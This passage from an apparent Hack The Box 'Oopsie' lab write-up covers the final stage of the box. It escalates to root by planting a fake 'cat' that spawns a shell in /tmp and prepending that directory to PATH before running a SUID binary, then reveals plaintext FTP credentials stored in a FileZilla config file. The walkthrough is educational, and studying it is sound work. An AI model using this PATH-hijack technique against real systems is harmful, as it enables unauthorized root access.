 * When looking around the output, you can see that it looks like a system command which is calling the `cat` command using the relative path instead of the absolute path. So what’s on your mind now. yes we can create malicious file called cat and modifying the path to include the current working directory. Using that method we can abuse this misconfiguration and escalate our privileges to root.
* Let’s create the file, make it as executable and add the current working directory to PATH.

```bash
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
export PATH=/tmp:$PATH
```

* Now let’s run the `/usr/bin/bugtracker` binary again.

![](2025-05-31-oopsie-16.png)

* Now we are landing as root. The last step; let’s check the root flag and submit it to the HTB.

```bash
#cd /root
#ls 
reports  root.txt
```

### Beyond root

* Inside the root’s folder, we see a `.config` folder, which contains a FileZilla config file with the credentials `ftpuser / mc@F1l3ZilL4` visible in plain text.

```xml
# cat filezilla.xml  
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>  
<FileZilla3>  
    <RecentServers>  
        <Server>  
            <Host>10.10.10.46</Host>  
            <Port>21</Port>  
            <Protocol>0</Protocol>  
            <Type>0</Type>  
            <User>ftpuser</User>  
            <Pass>mc@F1l3ZilL4</Pass>  
            <Logontype>1</Logontype>  
            <TimezoneOffset>0</TimezoneOffset>  
            <PasvMode>MODE_DEFAULT</PasvMode>  
            <MaximumMultipleConnections>0</MaximumMultipleConnections>  
            <EncodingType>Auto</EncodingType>  
            <BypassProxy>0</BypassProxy>  
        </Server>  
    </RecentServers>  
</FileZilla3>  
# pwd  
/root/.config/filezilla
```

